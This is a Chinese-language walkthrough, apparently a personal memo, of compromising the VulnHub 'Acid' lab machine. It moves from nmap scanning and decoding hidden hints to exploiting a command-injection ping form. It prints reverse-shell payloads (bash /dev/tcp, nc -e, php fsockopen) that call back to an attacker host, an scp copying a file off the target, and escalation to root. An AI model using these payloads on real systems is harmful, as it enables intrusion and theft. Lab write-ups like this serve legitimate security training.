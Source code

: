 ```yaml
---
title: 渗透测试-vulnhub-acid
date: 2018-09-18 08:44:02
tags: 渗透测试
password: shentou
---
```


**备忘录,仅用来记录一些操作，具体环境可以参考红日安全**

<!-- more -->

# 信息搜集

## 确定ip地址

由于采用NAT模式，靶机ip地址一定在Vmware的NAT网段下。

> nmap -sP 192.168.31.0/24 [-oN filename]
>
> or:
>
> netdiscover

从而确定IP地址: `192.168.31.144`

## 端口扫描

> nmap -p1-65535 -sV [-oN filename] 192.168.31.144
>
> nmap -Pn -sV -p- 192.168.31.144

扫描结果如下:

```
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
MAC Address: 00:0C:29:8B:C2:9F (VMware)
```

33447端口存在Web服务。

## 服务识别

仅仅发现Web服务，所以只能从Web服务入手。

端口： TCP  33447

Web服务器: Apache 2.4.10

操作系统: Ubuntu

# 漏洞挖掘

## 查看源码

发现首页最后一行存在注释 `0x643239334c6d70775a773d3d`，转化成字符串如下:

```
>>> libnum.n2s(0x643239334c6d70775a773d3d)
'd293LmpwZw=='
```

一看就知道是Base64。

```
ht@DESKTOP-GUA7PSI:/mnt/d$ echo d293LmpwZw== | base64 -d
wow.jpg
```

直接访问`http://192.168.31.144:33447/wow.jpg`，返回404。

凭经验尝试了一下`http://192.168.31.144:33447/images/wow.jpg`，返回一张图片。

![](/assets/shentou/wow.jpg)

通过`strings`命令查看图片,发现新的提示：

```
ht@DESKTOP-GUA7PSI:/mnt/c/Users/ht/Desktop$ strings wow.jpg | tail -n 4
/Pp$t
( ++|]
H{      l
;37:61:65:65:30:66:36:64:35:38:38:65:64:39:39:30:35:65:65:33:37:66:31:36:61:37:63:36:31:30:64:34
```

将最后一行数字转为字符串:

```
>>> ''.join([chr(int('0x'+i, 16)) for i in "37:61:65:65:30:66:36:64:35:38:38:65:64:39:39:30:35:65:65:33:37:66:31:36:61:37:63:36:31:30:64:34".split(":")])
'7aee0f6d588ed9905ee37f16a7c610d4'
```

通过猜测，`7aee0f6d588ed9905ee37f16a7c610d4`应该是一串md5值。通过**cmd5.com**查询，得到值`63425`。暂时不知道是什么东西。

## 使用Dirbuster爆破目录

![](/assets/shentou/TIM截图20180925144512.png)

依次尝试`/Challenge/cake.php`， `/Challenge/include.php`, `/Challenge/index.php`。

其中`cake.php`需要登录。查看源码`title`标签，可以发现新的目录`Magic_box`。

`include.php`则存在文件包含漏洞,可以通过输入`/etc/passwd`来测试。

继续爆破"/Challenge/Magic_box“目录，发现新的页面`command.php`, `low.php`。

## 命令执行

`/Challenge/Magic_box`很明显存在命令执行漏洞，通过尝试输入`127.0.0.1;ls`， 可以发现当前目录下所有文件.

```
command.php
command.php.save
command2.php.save
command2.php.save.1
low.php
proc
tails.php
```

查看`command.php`源码。

```
<?php
include_once '../includes/db_connect.php';
include_once '../includes/functions.php';
?>
<?php
if( isset( $_POST[ 'submit' ] ) ) {
        $target = $_REQUEST[ 'IP' ];
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) { 
                $cmd = shell_exec( 'ping  ' . $target );
                $html .= '<pre>'.$cmd.'</pre>';
        } else { 
                $cmd = shell_exec( 'ping  -c 3 ' . $target );
                $html .= '<pre>'.$cmd.'</pre>';
                echo $cmd;
        }
}
```

## 反弹shell+提权

payload1: `127.0.0.1;/bin/bash -i >& /dev/tcp/192.168.31.130/1234 0>&1` 失败。

payload2: `127.0.0.1;nc -e /bin/bash -d 192.168.31130 1234` 失败。

payload3: `127.0.0.1;php -r '$sock=fsockopen("192.168.31.130",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` 成功。

```
root@kali:~# nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.31.130] from (UNKNOWN) [192.168.31.144] 55051
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

提权，执行`su`命令，发现无法执行，需要从一个终端，才能执行`su`命令:

```
$ su
su: must be run from a terminal
```

解决方法，使用python调用本地`shell`。

```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py

python /tmp/asdf.py
```

结果如下：

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py

$ python /tmp/asdf.py
www-data@acid:/var/www/html/Challenge/Magic_Box$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

查看`/etc/passwd`，发现需要关注的用户有如下几个：`root`, `saman`, `acid`。

分别查看每个用户的文件:

> find / -user acid 2 >/dev/null

```
www-data@acid:/var/www/html/Challenge/Magic_Box$ find / -user acid 2>/dev/null
</Challenge/Magic_Box$ find / -user acid 2>/dev/null                         
/sbin/raw_vs_isi/hint.pcapng
/bin/pwn_me
/bin/pwn_me/chkrootkit.lsm
/bin/pwn_me/chkrootkit
/bin/pwn_me/README.chkwtmp
```

将`hint.pcapng`拷贝到自己电脑上。

```
scp /sbin/raw_vs_isi/hint.pcapng root@192.168.31.130:/root/Desktop/
```

找到 `saman`的密码`1337hax0r`。

```
www-data@acid:/var/www/html/Challenge/Magic_Box$ su saman
su saman
Password: 1337hax0r

saman@acid:/var/www/html/Challenge/Magic_Box$ sudo -i
sudo -i
[sudo] password for saman: 1337hax0r

  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:~#
```









